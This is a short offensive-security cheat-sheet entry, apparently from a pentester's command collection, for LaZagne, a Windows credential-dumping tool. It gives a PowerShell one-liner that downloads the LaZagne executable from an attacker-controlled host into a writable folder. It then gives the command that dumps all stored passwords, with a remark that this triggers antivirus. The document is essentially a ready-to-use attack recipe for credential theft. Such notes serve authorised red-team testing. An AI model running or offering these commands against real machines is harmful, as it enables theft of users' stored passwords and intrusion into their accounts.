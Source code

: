 # Lazagne

% lazagne, dump password
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## download on disk

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/bin/LaZagne.exe','<windows_writable_path>/LaZagne.exe')
```

## dump all passwords (trigger av)
```
lazagne.exe all
```

